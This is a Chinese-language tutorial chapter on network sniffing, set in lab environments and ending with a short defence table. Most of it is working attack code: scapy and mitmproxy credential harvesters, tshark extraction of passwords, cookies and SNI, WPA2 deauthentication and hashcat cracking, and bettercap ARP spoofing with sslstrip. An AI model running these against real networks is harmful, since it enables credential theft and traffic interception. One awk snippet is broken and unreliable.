






## 案例三：网络嗅探与敏感信息提取

网络嗅探（Packet Sniffing）是网络安全攻防中最基础也最强大的技术之一。攻击者通过捕获网络中传输的原始数据包，能够提取用户名、密码、会话令牌、邮件内容等敏感信息。防御者同样依赖嗅探技术进行故障排查、入侵检测和取证分析。本案例从原理到实操，系统讲解网络嗅探的完整技术栈。

### 3.1 嗅探原理：网卡如何"偷听"网络

#### 3.1.1 正常模式与混杂模式

网卡（NIC）在正常模式下只接收目标 MAC 地址为自身的数据帧、广播帧和组播帧。混杂模式（Promiscuous Mode）下，网卡将所有经过的数据帧都传递给操作系统内核，无论目标 MAC 是否匹配。



切换混杂模式的底层操作：

```bash
# Linux 下启用混杂模式
sudo ip link set eth0 promisc on

# 验证是否启用
ip link show eth0 | grep PROMISC

# 关闭混杂模式
sudo ip link set eth0 promisc off
```

#### 3.1.2 不同网络拓扑下的嗅探能力

| 网络拓扑 | 嗅探难度 | 能嗅探到的流量 | 典型场景 |
|---------|---------|-------------|---------|
| 集线器（Hub） | 极低 | 所有端口的全部流量 | 老旧小型网络 |
| 交换机（Switch） | 中等 | 仅广播帧 + 自身流量 | 现代局域网 |
| 交换机 + ARP欺骗 | 低 | 目标主机的全部流量 | 中间人攻击场景 |
| 无线网络 | 低-中 | 同信道所有未加密流量 | WiFi 热点、公共网络 |
| 虚拟化环境 | 高 | 取决于虚拟交换机配置 | 云数据中心 |

**关键理解**：现代交换机通过 MAC 地址表进行定向转发，不像集线器那样广播所有帧。因此在交换网络中直接嗅探只能看到广播流量和发给自己的流量。要突破这个限制，需要 ARP 欺骗、MAC 泛洪、端口镜像等技术配合，相关内容参见案例一和案例六。

#### 3.1.3 嗅探的数据链路层视角

数据帧到达网卡后，协议栈逐层解析。嗅探工具可以在不同层次截取数据：



红色标记的是攻击者最关注的层次——应用层数据直接包含明文凭证和业务数据。

### 3.2 环境搭建：可控的嗅探实验靶场

在进行任何嗅探实验之前，必须搭建合法可控的实验环境。在未授权的网络上嗅探他人流量属于违法行为。

#### 3.2.1 方案一：本机回环嗅探

最简单的实验方式，无需额外设备：

```bash
# 终端1：启动tcpdump抓取回环接口
sudo tcpdump -i lo -w loopback.pcap port 8080 &

# 终端2：启动一个HTTP服务器
python3 -m http.server 8080

# 终端3：发送包含敏感数据的HTTP请求
curl -X POST http://127.0.0.1:8080/login \
  -d "username=admin&password=your_password123" \
  -H "Content-Type: application/x-www-form-urlencoded"

# 终端1：停止抓包，用tshark分析
tshark -r loopback.pcap -Y "http.request.method==POST" \
  -T fields -e http.file_data
```

#### 3.2.2 方案二：双虚拟机环境

使用 VirtualBox/VMware 创建两台虚拟机，配置为同一 NAT 网络或 Host-Only 网络：

| 角色 | IP | 工具 | 用途 |
|-----|-----|------|-----|
| 攻击机（Kali Linux） | 192.168.56.10 | Wireshark, tcpdump, tshark | 捕获和分析流量 |
| 靶机（Ubuntu/Windows） | 192.168.56.20 | DVWA, 自建HTTP服务 | 模拟用户操作 |

#### 3.2.3 方案三：Docker 一键靶场

```yaml
# docker-compose.yml
version: '3'
services:
  vulnerable-web:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
    networks:
      sniffing-lab:
        ipv4_address: 172.20.0.10
  
  ftp-server:
    image: fauria/vsftpd
    ports:
      - "21:21"
    environment:
      - FTP_USER=testuser
      - FTP_PASS=testpass123
    networks:
      sniffing-lab:
        ipv4_address: 172.20.0.11

networks:
  sniffing-lab:
    ipam:
      config:
        - subnet: 172.20.0.0/24
```

```bash
docker-compose up -d
# 在攻击机上对Docker网络进行嗅探
sudo tcpdump -i docker0 -w lab_capture.pcap net 172.20.0.0/24
```

### 3.3 实验一：HTTP 明文流量嗅探

HTTP 是最典型的明文协议，所有数据（包括凭证）以未加密形式传输，是嗅探的首选目标。

#### 3.3.1 使用 tcpdump 捕获

```bash
# 捕获HTTP流量并保存为pcap
sudo tcpdump -i eth0 -w http_capture.pcap port 80

# 实时以ASCII显示HTTP内容（适合快速查看）
sudo tcpdump -i eth0 -A port 80 | grep -E "POST|GET|password|user|login"

# 捕获特定目标的HTTP流量
sudo tcpdump -i eth0 -w target.pcap host 192.168.1.100 and port 80
```

#### 3.3.2 模拟用户操作

在靶机上执行以下操作，模拟真实用户的登录行为：

```bash
# 模拟登录请求
curl -X POST http://192.168.1.100/login.php \
  -d "username=admin&password=secret123" \
  -H "Content-Type: application/x-www-form-urlencoded"

# 模拟带Cookie的请求（会话劫持场景）
curl -X GET http://192.168.1.100/dashboard \
  -H "Cookie: PHPSESSID=abc123def456; session_token=eyJhbGciOiJIUzI1NiJ9"

# 模拟文件上传（可能泄露文件内容）
curl -X POST http://192.168.1.100/upload \
  -F "file=@/etc/passwd" \
  -F "description=test upload"
```

#### 3.3.3 分析抓包结果

**方法一：Wireshark 图形界面**

1. 用 Wireshark 打开 `http_capture.pcap`
2. 应用显示过滤器：`http.request.method == "POST"`
3. 右键数据包 → Follow → HTTP Stream
4. 在弹出的窗口中可以清晰看到完整的请求体，包括 `username=admin&password=secret123`

**方法二：tshark 命令行提取**

```bash
# 提取所有HTTP POST请求的完整数据
tshark -r http_capture.pcap \
  -Y "http.request.method==POST" \
  -T fields \
  -e http.host \
  -e http.request.uri \
  -e http.file_data

# 提取所有HTTP请求的URL
tshark -r http_capture.pcap \
  -Y "http.request" \
  -T fields \
  -e http.request.full_uri

# 提取所有Cookie头
tshark -r http_capture.pcap \
  -Y "http.cookie" \
  -T fields \
  -e http.cookie

# 提取所有HTTP响应中包含的Set-Cookie（会话令牌）
tshark -r http_capture.pcap \
  -Y "http.set_cookie" \
  -T fields \
  -e http.set_cookie
```

**方法三：自动化脚本提取凭证**

```python
#!/usr/bin/env python3
"""从pcap文件中自动提取HTTP凭证"""
from scapy.all import *
import re
import urllib.parse

def extract_credentials(pcap_file):
    packets = rdpcap(pcap_file)
    credentials = []
    
    for pkt in packets:
        if pkt.haslayer(Raw):
            payload = pkt[Raw].load.decode('utf-8', errors='ignore')
            
            # 匹配POST请求中的表单数据
            if 'POST' in payload and ('password' in payload.lower() or 
                                       'passwd' in payload.lower() or
                                       'login' in payload.lower()):
                # 提取POST body（在空行之后）
                body_start = payload.find('\r\n\r\n')
                if body_start != -1:
                    body = payload[body_start + 4:]
                    params = urllib.parse.parse_qs(body)
                    if params:
                        credentials.append({
                            'src': pkt[IP].src,
                            'dst': pkt[IP].dst,
                            'params': params
                        })
            
            # 匹配Authorization头（Basic认证）
            auth_match = re.search(r'Authorization:\s*Basic\s+(\S+)', payload)
            if auth_match:
                import base64
                decoded = base64.b64decode(auth_match.group(1)).decode()
                credentials.append({
                    'src': pkt[IP].src,
                    'dst': pkt[IP].dst,
                    'basic_auth': decoded
                })
    
    return credentials

results = extract_credentials('http_capture.pcap')
for cred in results:
    print(f"[!] 凭证泄露: {cred}")
```

### 3.4 实验二：FTP 密码嗅探

FTP 是另一个典型的明文协议，用户名和密码直接以 ASCII 文本在网络上传输。

#### 3.4.1 FTP 认证过程分析

FTP 的认证过程非常简单——`USER` 命令发送用户名，`PASS` 命令发送密码，全部明文：



#### 3.4.2 实时捕获 FTP 凭证

```bash
# 方法一：tcpdump + grep 实时提取
sudo tcpdump -i eth0 -A port 21 | grep -iE "USER|PASS|230|530"

# 方法二：tshark 精确提取FTP命令
tshark -i eth0 -Y "ftp.request.command==USER or ftp.request.command==PASS" \
  -T fields \
  -e ip.src \
  -e ftp.request.command \
  -e ftp.request.arg

# 方法三：tshark提取完整FTP会话
tshark -i eth0 -Y "ftp.request" \
  -T fields \
  -e frame.time \
  -e ip.src \
  -e ftp.request.command \
  -e ftp.request.arg
```

输出示例：

```text
10:23:15  192.168.1.50   USER  testuser
10:23:15  192.168.1.50   PASS  testpass123
10:23:16  192.168.1.50   CWD   /documents
10:23:16  192.168.1.50   RETR  confidential.pdf
```

#### 3.4.3 使用 scapy 编写自动化嗅探器

```python
#!/usr/bin/env python3
"""FTP凭证嗅探器 - 基于scapy"""
from scapy.all import *
from collections import defaultdict

# 跟踪每个FTP会话
sessions = defaultdict(dict)

def process_packet(pkt):
    if pkt.haslayer(TCP) and pkt.haslayer(Raw):
        payload = pkt[Raw].load.decode('utf-8', errors='ignore')
        src_ip = pkt[IP].src
        
        # 提取USER命令
        if payload.startswith('USER '):
            username = payload.strip().split(' ', 1)[1]
            sessions[src_ip]['username'] = username
            print(f"[*] 检测到用户名: {src_ip} -> {username}")
        
        # 提取PASS命令
        elif payload.startswith('PASS '):
            password = payload.strip().split(' ', 1)[1]
            sessions[src_ip]['password'] = password
            username = sessions[src_ip].get('username', '未知')
            print(f"[!] 凭证捕获: {src_ip} | 用户名: {username} | 密码: {password}")
        
        # 检测登录结果
        elif '230 ' in payload:
            print(f"[+] 登录成功: {src_ip}")
        elif '530 ' in payload:
            print(f"[-] 登录失败: {src_ip}")

# 开始嗅探
print("[*] FTP凭证嗅探器已启动，监听端口21...")
sniff(filter="tcp port 21", prn=process_packet, store=0)
```

#### 3.4.4 其他明文协议的嗅探

同样的方法适用于所有明文协议：

| 协议 | 端口 | 嗅探重点 | tshark 过滤器 |
|-----|-----|---------|-------------|
| Telnet | 23 | 完整会话内容（所有按键） | `telnet.data` |
| SMTP | 25/587 | 邮件内容、认证信息 | `smtp.req.parameter` |
| POP3 | 110 | 邮件下载、USER/PASS | `pop.request.command` |
| IMAP | 143 | 邮箱操作、LOGIN命令 | `imap.request.command` |
| HTTP | 80 | 表单数据、Cookie、API | `http.request` |
| SNMP v1/v2 | 161 | 团体名（community string） | `snmp.community` |

```bash
# Telnet会话嗅探（可以看到所有键入的字符）
sudo tcpdump -i eth0 -A port 23

# SMTP认证嗅探
tshark -i eth0 -Y "smtp.req.command==AUTH" -T fields -e smtp.req.parameter

# SNMP团体名嗅探
tshark -i eth0 -Y "snmp" -T fields -e snmp.community -e snmp.value
```

### 3.5 实验三：HTTPS 流量元信息分析

HTTPS（TLS/SSL）对应用层数据进行了加密，无法直接读取内容。但握手阶段和证书信息仍然泄露大量有价值的元数据。

#### 3.5.1 TLS 握手中的信息泄露



#### 3.5.2 提取 SNI（Server Name Indication）

SNI 是 TLS 握手时客户端发送的目标服务器域名，以明文形式传输：

```bash
# 实时提取HTTPS连接的目标域名
tshark -i eth0 \
  -Y "tls.handshake.extensions_server_name" \
  -T fields \
  -e ip.dst \
  -e tls.handshake.extensions_server_name \
  -e frame.time_relative

# 从pcap文件中提取所有HTTPS目标
tshark -r capture.pcap \
  -Y "tls.handshake.type==1" \
  -T fields \
  -e tls.handshake.extensions_server_name | sort | uniq -c | sort -rn
```

输出示例：

```text
   15 mail.google.com
    8 api.github.com
    5 www.facebook.com
    3 login.microsoftonline.com
```

通过 SNI 可以精确知道用户访问了哪些网站，即使无法看到具体页面内容。

#### 3.5.3 提取服务器证书信息

```bash
# 提取服务器证书中的域名和组织信息
tshark -r capture.pcap \
  -Y "tls.handshake.type==11" \
  -T fields \
  -e x509sat.utf8String \
  -e x509ce.dNSName

# 提取证书有效期
tshark -r capture.pcap \
  -Y "x509af.utcTime" \
  -T fields \
  -e x509af.utcTime

# 使用openssl解码证书
echo | openssl s_client -connect www.example.com:443 2>/dev/null \
  | openssl x509 -text -noout | grep -E "Subject:|Issuer:|Not Before|Not After|DNS:"
```

#### 3.5.4 JA3/JA3S 指纹识别

JA3 是一种通过 TLS 握手参数生成客户端指纹的技术，可用于识别特定的客户端软件（如恶意软件、特定浏览器版本）：

```bash
# 使用tshark提取TLS握手参数
tshark -r capture.pcap \
  -Y "tls.handshake.type==1" \
  -T fields \
  -e tls.handshake.version \
  -e tls.handshake.ciphersuite \
  -e tls.handshake.extensions.supported_version \
  -e tls.handshake.extensions_ec_point_format

# 安装ja3工具进行自动化指纹提取
pip3 install ja3
# 或使用专门的ja3解析工具
python3 -c "
import hashlib
# JA3 = TLSVersion,Ciphers,Extensions,EllipticCurves,EllipticCurvePointFormats
# 拼接后取MD5
ja3_string = '771,4865-4866-4867-49195-49199,0-23-65281-10-11-35-16-5-13-18-51-45-43-27-21,29-23-24,0'
ja3_hash = hashlib.md5(ja3_string.encode()).hexdigest()
print(f'JA3 Hash: {ja3_hash}')
"
```

#### 3.5.5 HTTPS 流量的统计学分析

即使无法解密内容，流量分析仍然可以推断大量信息：

```bash
# 统计每个目标的连接次数和数据量
tshark -r capture.pcap \
  -Y "tls.handshake.type==1" \
  -T fields \
  -e ip.dst \
  -e tls.handshake.extensions_server_name \
  -e frame.len | \
  awk '{ip=$1; name=$2; bytes+=$3; count++} 
       END {for (h in bytes_by_host) print h, bytes_by_host[h], count_by_host[h]}'

# 分析连接时间模式（推断用户行为）
tshark -r capture.pcap \
  -Y "tls.handshake.type==1" \
  -T fields \
  -e frame.time \
  -e tls.handshake.extensions_server_name
```

### 3.6 实验四：WiFi 无线嗅探与密码破解

无线网络的广播特性使得嗅探更加容易——任何在信号范围内的设备都可以接收到无线帧。

#### 3.6.1 WPA2 四次握手原理

WPA2 使用四次握手协商会话密钥（PTK），握手过程虽然不直接传输密码，但包含了足够的信息用于离线字典攻击：



#### 3.6.2 捕获 WPA2 四次握手

```bash
# 步骤1：将无线网卡设为监听模式
sudo airmon-ng check kill    # 杀死干扰进程
sudo airmon-ng start wlan0   # 启动监听模式（创建wlan0mon）

# 步骤2：扫描周围的无线网络
sudo airodump-ng wlan0mon
# 记录目标AP的BSSID、信道(CH)和加密类型

# 步骤3：针对目标AP捕获数据
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
# -c 6: 指定信道
# --bssid: 目标AP的MAC地址
# -w: 输出文件前缀

# 步骤4：发送解除认证帧，强制客户端重新连接（加速捕获握手包）
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
# -0 5: 发送5个解除认证帧
# -a: 目标AP的BSSID

# 步骤5：检查是否成功捕获握手包
# airodump-ng界面右上角会显示 "WPA handshake: AA:BB:CC:DD:EE:FF"
# 或使用以下命令验证
aircrack-ng capture-01.cap
```

#### 3.6.3 离线字典破解

```bash
# 使用aircrack-ng + 字典文件破解
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap

# 使用hashcat进行GPU加速破解（更高效）
# 先将握手包转换为hashcat格式
hcxpcapngtool -o hash.hc22000 capture-01.cap

# 使用hashcat破解
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt

# 使用规则文件增强字典
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

#### 3.6.4 PMKID 攻击（无需客户端在线）

PMKID 攻击是2018年发现的新型攻击方式，无需等待四次握手，也无需客户端在线：

```bash
# 使用hcxdumptool直接从AP获取PMKID
sudo hcxdumptool -i wlan0mon -o pmkid_capture.pcapng --filterlist_ap=target.txt --filtermode=2

# 转换格式
hcxpcapngtool -o pmkid_hash.hc22000 pmkid_capture.pcapng

# 破解
hashcat -m 22000 pmkid_hash.hc22000 /usr/share/wordlists/rockyou.txt
```

**target.txt** 文件内容为目标 AP 的 BSSID：

```text
AABBCCDDEEFF
```

### 3.7 高级嗅探技术

#### 3.7.1 使用 Scapy 进行可编程嗅探

Scapy 是 Python 的网络包处理库，可以实现高度定制化的嗅探逻辑：

```python
#!/usr/bin/env python3
"""多协议敏感信息嗅探器"""
from scapy.all import *
from datetime import datetime
import re

findings = []

def analyze_packet(pkt):
    """分析每个数据包，提取敏感信息"""
    timestamp = datetime.now().strftime('%H:%M:%S')
    
    if not pkt.haslayer(IP):
        return
    
    src = pkt[IP].src
    dst = pkt[IP].dst
    
    if pkt.haslayer(Raw):
        payload = pkt[Raw].load.decode('utf-8', errors='ignore')
        
        # 1. HTTP表单凭证
        if pkt.haslayer(TCP) and pkt[TCP].dport == 80:
            if 'password' in payload.lower() or 'passwd' in payload.lower():
                finding = f"[{timestamp}] [HTTP凭证] {src} -> {dst}: {payload[:200]}"
                findings.append(finding)
                print(f"\033[91m{finding}\033[0m")
            
            # 提取Cookie
            cookie_match = re.search(r'Cookie:\s*(.+)', payload)
            if cookie_match:
                finding = f"[{timestamp}] [Cookie] {src} -> {dst}: {cookie_match.group(1)[:100]}"
                findings.append(finding)
                print(f"\033[93m{finding}\033[0m")
        
        # 2. FTP凭证
        if pkt.haslayer(TCP) and pkt[TCP].dport == 21:
            if payload.startswith('USER ') or payload.startswith('PASS '):
                cmd = payload.strip()
                finding = f"[{timestamp}] [FTP] {src}: {cmd}"
                findings.append(finding)
                print(f"\033[91m{finding}\033[0m")
        
        # 3. DNS查询（推断用户行为）
        if pkt.haslayer(DNS) and pkt[DNS].qr == 0:
            qname = pkt[DNS].qd.qname.decode() if pkt[DNS].qd else ''
            # 过滤掉常见的CDN和系统域名
            if not any(d in qname for d in ['arpa', 'local', 'in-addr']):
                print(f"\033[94m[{timestamp}] [DNS查询] {src}: {qname}\033[0m")
        
        # 4. SMTP认证
        if pkt.haslayer(TCP) and pkt[TCP].dport in [25, 587]:
            if 'AUTH' in payload or 'LOGIN' in payload:
                finding = f"[{timestamp}] [SMTP认证] {src} -> {dst}: {payload[:100]}"
                findings.append(finding)
                print(f"\033[91m{finding}\033[0m")

print("[*] 多协议敏感信息嗅探器已启动...")
print("[*] 监听协议: HTTP(80), FTP(21), SMTP(25/587), DNS(53)")
print("[*] 按 Ctrl+C 停止\n")

try:
    sniff(
        filter="port 80 or port 21 or port 25 or port 587 or port 53",
        prn=analyze_packet,
        store=0
    )
except KeyboardInterrupt:
    print(f"\n[*] 嗅探结束，共发现 {len(findings)} 条敏感信息")
    for f in findings:
        print(f)
```

#### 3.7.2 使用 bettercap 进行一体化嗅探

Bettercap 是现代网络攻击的瑞士军刀，集成了 ARP 欺骗、DNS 欺骗、嗅探等功能：

```bash
# 启动bettercap交互式界面
sudo bettercap -iface eth0

# 在bettercap交互界面中执行：
# 启用ARP欺骗（将流量引到本机）
set arp.spoof.targets 192.168.1.50
arp.spoof on

# 启用嗅探
net.sniff on

# 过滤HTTP流量中的凭证
set net.sniff.verbose true
set net.sniff.filter "tcp port 80"

# 启用HTTP代理（可篡改和记录HTTP流量）
set http.proxy.sslstrip true
http.proxy on
```

#### 3.7.3 使用 mitmproxy 进行 HTTP(S) 中间人代理

mitmproxy 是一个交互式的 HTTPS 代理，可以解密和修改 HTTPS 流量（需要在目标设备上安装 CA 证书）：

```bash
# 安装mitmproxy
pip3 install mitmproxy

# 启动代理
mitmproxy --listen-port 8080 --set upstream_cert=false

# 命令行版本（适合自动化）
mitmdump -p 8080 -w traffic.flow

# 使用脚本自动提取凭证
cat > extract_creds.py << 'EOF'
from mitmproxy import http

def request(flow: http.HTTPFlow):
    # 检查POST请求中的凭证
    if flow.request.method == "POST":
        content = flow.request.get_text()
        if content and ('password' in content.lower() or 'token' in content.lower()):
            print(f"[!] 凭证: {flow.request.url}")
            print(f"    数据: {content[:200]}")
    
    # 检查Authorization头
    auth = flow.request.headers.get("Authorization")
    if auth:
        print(f"[!] Auth头: {flow.request.url} -> {auth}")

def response(flow: http.HTTPFlow):
    # 检查Set-Cookie中的会话令牌
    cookies = flow.response.headers.get_all("Set-Cookie")
    for cookie in cookies:
        if 'session' in cookie.lower() or 'token' in cookie.lower():
            print(f"[!] 会话Cookie: {flow.request.url} -> {cookie}")
EOF

mitmdump -p 8080 -s extract_creds.py
```

### 3.8 防御与检测

#### 3.8.1 应用层防御

| 防御措施 | 原理 | 适用场景 | 实施难度 |
|---------|------|---------|---------|
| 全站HTTPS/TLS | 加密所有应用层数据 | 所有Web服务 | 低（Let's Encrypt免费） |
| HSTS头 | 强制浏览器使用HTTPS | Web服务 | 低 |
| 证书固定（Certificate Pinning） | 防止中间人替换证书 | 移动应用 | 中 |
| 加密协议替代明文协议 | SSH替代Telnet，SFTP替代FTP | 所有远程管理 | 低 |
